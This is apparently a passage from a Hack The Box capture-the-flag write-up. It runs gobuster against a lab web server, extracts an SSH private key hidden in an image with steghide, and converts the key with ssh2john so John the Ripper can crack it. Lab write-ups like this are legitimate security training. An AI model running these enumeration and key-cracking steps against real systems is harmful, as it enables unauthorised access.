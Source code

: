 `cat exploit/enum-more.txt | cut -d " " -f 4 | tee loot/custom-wordlist.txt`

`gobuster dir -u http://10.10.10.10/wp-content/uploads/2017/04 -w loot/custom-wordlist.txt -x png,jpg,jpeg -o gobsuter/enum-custom-wordlist`

```code
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.10/wp-content/uploads/2017/04
[+] Threads:        10
[+] Wordlist:       loot/custom-wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     jpeg,png,jpg
[+] Timeout:        10s
===============================================================
2020/08/31 08:52:12 Starting gobuster
===============================================================
/cube.png (Status: 200)
/HackerAccessGranted.jpg (Status: 200)
===============================================================
2020/08/31 08:52:22 Finished
===============================================================
```

Now, we going to see what is this cube and HackerAccessGranted file about. 

cube
![a29be2cf7a1ba6f2f6dd65986073a880.png](/images/htb/brainfuck/72f5e54e39ee4d94a2d632fcbe428e14.png)


HackerAccessGranted
![a1c9a546372550b13b7b9e525bc23143.png](/images/htb/brainfuck/544557eb5d9e4b2a9385c498add2ab83.png)

Download this and we going to dissect hidden strings or anything inside.

Strings
![fce9906e92357147af91281dd2b92fbd.png](/images/htb/brainfuck/8e3828eefdd748029169bccf6ed2145c.png)

Since there is no hidden strings on the file, we should use another tools called steghide.
![1c537743ff081b415c7a3c33f69dee4e.png](/images/htb/brainfuck/57394c3a342842cca6afee758fb5ce99.png)


Basically, the image contain hidden stego function of private key ssh to the victim machine. To crack the password, we can use ssh2john and crack it using JohnTheRipper.

First , we change the current private key into john format
`python /usr/share/john/ssh2john id_rsa > john-id_rsa`
![cf136e9cd614018bb706e59a98357121.png](/images/htb/brainfuck/7e9290ae778b4b45b08a12dec2fdba43.png)

For future reference, the john format and normal private key format is different as shown below
![971ea8ec0a5bc17145ef63ce9ade20b7.png](/images/htb/brainfuck/30b68c5f5000409ab155fe4c416c0913.png)
